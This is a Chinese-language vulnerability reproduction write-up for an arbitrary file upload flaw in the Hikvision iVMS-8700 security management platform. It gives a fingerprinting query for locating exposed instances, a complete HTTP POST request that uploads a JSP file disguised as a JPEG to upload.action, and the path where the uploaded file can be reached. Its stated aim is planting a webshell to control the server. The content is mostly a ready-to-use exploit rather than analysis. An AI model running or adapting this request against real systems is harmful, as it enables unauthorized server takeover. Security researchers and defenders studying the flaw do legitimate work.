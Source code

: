 # Hikvision iVMS-8700综合安防管理平台 upload.action 任意文件上传漏洞

## 漏洞描述

Hikvision iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

Hikvision iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704111156427](images/image-20230704111156427.png)

发送请求包上传文件

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![image-20230704111213114](images/image-20230704111213114.png)

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![image-20230704111225074](images/image-20230704111225074.png)